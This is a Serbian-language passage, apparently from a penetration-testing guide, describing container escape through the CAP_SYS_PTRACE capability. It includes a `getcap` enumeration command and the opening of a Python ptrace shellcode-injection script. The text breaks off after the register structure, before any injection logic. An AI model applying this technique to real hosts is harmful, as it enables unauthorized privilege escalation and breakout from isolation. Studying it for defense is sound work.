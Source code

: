## CAP\_SYS\_PTRACE

**Ovo znači da možete izbeći kontejner ubacivanjem shell koda unutar nekog procesa koji se izvršava unutar hosta.** Da biste pristupili procesima koji se izvršavaju unutar hosta, kontejner mora biti pokrenut barem sa **`--pid=host`**.

[**`CAP_SYS_PTRACE`**](https://man7.org/linux/man-pages/man7/capabilities.7.html) omogućava korišćenje funkcionalnosti za debagovanje i praćenje sistemskih poziva koje pruža `ptrace(2)` i pozive za povezivanje preko memorije kao što su `process_vm_readv(2)` i `process_vm_writev(2)`. Iako je moćan u dijagnostičke i nadzorne svrhe, ako je `CAP_SYS_PTRACE` omogućen bez restriktivnih mera kao što je seccomp filter na `ptrace(2)`, može značajno narušiti sigurnost sistema. Konkretno, može se iskoristiti za zaobilaženje drugih sigurnosnih ograničenja, posebno onih nametnutih od strane seccomp-a, kao što je prikazano u [dokazima koncepta (PoC) kao što je ovaj](https://gist.github.com/thejh/8346f47e359adecd1d53).

**Primer sa binarnim fajlom (python)**

```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_ptrace+ep
```

```python
import ctypes
import sys
import struct
# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html
PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17
# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct
class user_regs_struct(ctypes.Structure):
_fields_ = [
("r15", ctypes.c_ulonglong),
("r14", ctypes.c_ulonglong),
("r13", ctypes.c_ulonglong),
("r12", ctypes.c_ulonglong),
("rbp", ctypes.c_ulonglong),
("rbx", ctypes.c_ulonglong),
("r11", ctypes.c_ulonglong),
("r10", ctypes.c_ulonglong),
("r9", ctypes.c_ulonglong),
("r8", ctypes.c_ulonglong),
("rax", ctypes.c_ulonglong),
("rcx", ctypes.c_ulonglong),
("rdx", ctypes.c_ulonglong),
("rsi", ctypes.c_ulonglong),
("rdi", ctypes.c_ulonglong),
("orig_rax", ctypes.c_ulonglong),
("rip", ctypes.c_ulonglong),
("cs", ctypes.c_ulonglong),
("eflags", ctypes.c_ulonglong),
("rsp", ctypes.c_ulonglong),
("ss", ctypes.c_ulonglong),
("fs_base", ctypes.c_ulonglong),
("gs_base", ctypes.c_ulonglong),
("ds", ctypes.c_ulonglong),
("es", ctypes.c_ulonglong),
("fs", ctypes.c_ulonglong),
("gs", ctypes.c_ulonglong),
]
```
